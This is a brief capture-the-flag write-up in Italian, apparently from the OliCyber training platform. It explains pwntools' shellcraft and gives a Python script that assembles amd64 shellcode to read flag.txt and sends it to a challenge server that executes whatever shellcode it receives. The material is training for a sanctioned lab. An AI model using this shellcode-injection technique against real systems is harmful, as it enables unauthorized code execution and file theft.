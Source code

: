 > Pwntools permette di create shellcode on-the-fly. Grazie alla utility shellcraft.Possiamo anche trovare alcuni shellcode già pronti, per esempio shellcraft.amd64.linux.sh() ritorna il codice assembly necessario per aprire la shell /bin/sh. Poi possiamo assemblarlo con la funziona asm(). Il binario remoto di questa challenge eseguirà qualsiasi shellcode gli manderai, la flag si trova in flag. Puoi collegarti al servizio remoto con il comando: nc software-20.challs.olicyber.it 13003

```python
from pwn import *
from Crypto.Util.number import *

shell = asm(shellcraft.amd64.linux.cat("flag.txt"), arch='x86_64')
r = remote("software-20.challs.olicyber.it", 13003)

r.recvuntil(b"...")
r.sendline(b"a")
r.recvuntil(b": ")
r.sendline(str(len(shell)).encode())
r.recv(1000)
r.send(shell)
r.interactive()
```